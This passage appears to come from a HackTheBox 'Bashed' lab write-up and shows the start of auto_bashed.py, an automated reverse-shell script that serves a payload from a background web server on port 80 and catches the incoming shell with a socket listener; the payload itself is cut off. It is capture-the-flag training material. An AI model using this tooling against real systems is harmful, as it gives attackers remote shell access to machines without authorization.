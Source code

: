 ```py
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-12-HackTheBox-Bashed/2021-12-12-HackTheBox-Bashed%2007:42:57.png)

auto_bashed.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Reverse Shell Bashed - HackTheBox

import argparse
import requests
import sys
import socket, telnetlib
from threading import Thread
import base64
import os
from threading import Thread
import threading                     
import http.server                                  
import socket                                   
from http.server import HTTPServer, SimpleHTTPRequestHandler

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Setting the python web server
def webServer():
    debug = True                                    
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:                                                                                                                                
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True                                                                                 
        thread.start()                                                                                       
    else:                                               
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()
        
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport) 
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# Create the shell.sh file
```